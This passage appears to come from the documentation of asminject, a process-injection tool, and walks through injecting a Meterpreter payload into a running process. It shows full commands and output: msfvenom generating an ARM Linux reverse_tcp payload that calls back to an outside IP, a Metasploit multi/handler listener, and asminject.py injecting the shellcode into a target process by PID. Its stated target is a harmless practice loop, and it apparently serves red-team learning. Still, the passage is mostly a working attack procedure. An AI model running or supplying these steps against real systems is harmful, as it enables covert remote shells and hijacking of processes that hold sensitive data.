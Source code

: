 Back in terminal 1:

```
2022-05-16T16:04:05-07:00 - Loop count 9
Injected Ruby code
```

## Inject Meterpreter into an existing process

Launch a harmless process that simulates one with access to super-secret, sensitive data:

```
$ sudo python3 practice/python_loop.py

2022-05-18T20:29:26.858397 - Loop count 0
2022-05-18T20:29:31.863660 - Loop count 1
2022-05-18T20:29:36.868972 - Loop count 2
```

In a separate terminal, generate a Meterpreter payload, then launch a listener:

```
# msfvenom -p linux/armle/meterpreter/reverse_tcp -f raw -o lmrtarm11443 LHOST=172.19.87.7 LPORT=11443

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: armle from the payload
No encoder specified, outputting raw payload
Payload size: 260 bytes
Saved as: lmrtarm11443

# msfconsole

...omitted for brevity...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/armle/meterpreter/reverse_tcp
payload => linux/armle/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
```

In a third terminal, locate the process and inject the Meterpreter payload into it. Note the use of the `--precompiled` option to specify the `lmrt11443` shellcode.

```
# ps auxww | grep python

pi        5283  0.3  5.1  54224 44908 pts/1    S    13:00   0:06 gdb --args python3 ./python_loop.py
pi        5487  0.0  0.9  23524  8008 pts/1    SNl+ 13:29   0:00 /usr/bin/python3 ./python_loop.py


# python3 ./asminject.py 5487 execute_precompiled.s --arch arm32 --stop-method "slow" --precompiled lmrtarm11443
...omitted for brevity...
```

